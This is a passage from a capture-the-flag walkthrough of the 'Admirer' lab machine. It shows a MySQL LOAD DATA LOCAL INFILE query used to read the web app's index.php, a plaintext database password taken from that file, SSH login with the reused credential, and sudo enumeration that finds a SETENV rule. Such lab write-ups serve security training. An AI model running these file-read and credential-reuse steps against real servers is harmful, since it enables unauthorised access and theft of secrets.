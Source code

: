 ```
```
As output we receive:  
```
Error in query (2000): open_basedir restriction in effect. Unable to open file
```
if we go to info.php file, we can see that the following restriction is in place.  
```
open_basedir	/var/www/html	/var/www/html
```
So we can try to read a file within this path and see if we can find some creds. Let's start by index.php
```
LOAD DATA local INFILE '/var/www/html/index.php' INTO TABLE exf fields TERMINATED BY "\n";
```
the query succeed, now we can see the data loaded into the database, here we find one password which is different from the ones disclosed earlier:  
```
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```
Now we can try to use this creds against SSH:  
```
[root@kali Admirer ]$ ssh -l waldo $TARGET                                          
The authenticity of host '10.10.10.187 (10.10.10.187)' can't be established.
ED25519 key fingerprint is SHA256:MfZJmYPldPPosZMdqhpjGPkT2fGNUn2vrEielbbFz/I.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.187' (ED25519) to the list of known hosts.
waldo@10.10.10.187's password:
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Wed Apr 29 10:56:59 2020 from 10.10.14.3
waldo@admirer:~$
```
and we gain a shell as user waldo.

## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, a part from one not working exploit, we cannot see anything intresting.  
As we know, linpeas does not have password for ```sudo -l``` but we do, so let's run sudo -l and provide the discovered password:  
```
waldo@admirer:~$ sudo -l
[sudo] password for waldo:
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```
So, if we look carefully we can notice that sudo comes with the SETENV option enabled, this, according to documentation, will permit us to export our environment variables when running commands as root.  